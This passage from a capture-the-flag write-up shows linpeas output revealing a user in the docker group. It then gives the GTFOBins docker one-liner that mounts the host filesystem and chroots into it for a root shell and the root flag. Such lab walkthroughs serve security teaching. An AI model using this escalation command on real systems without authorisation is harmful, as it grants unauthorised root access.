 Now to enumerate the target from the inside, we can run linpeas, and we see that we are in the docker group:

```bash
====================================( Basic information )=====================================
OS: Linux version 4.15.0-109-generic (buildd@lgw01-amd64-010) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020
User & Groups: uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

## Docker GTFOBin

Using the docker GTFOBin from [here](https://gtfobins.github.io/gtfobins/docker/) we can get root. All we need to modify is the operating system, as the target is running Ubuntu. The command we use is:

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

And we get root:

![root_shell](images/root_shell.png)

## Root.txt

And then we can get the root flag in /root

![root_flag](images/root_flag.png)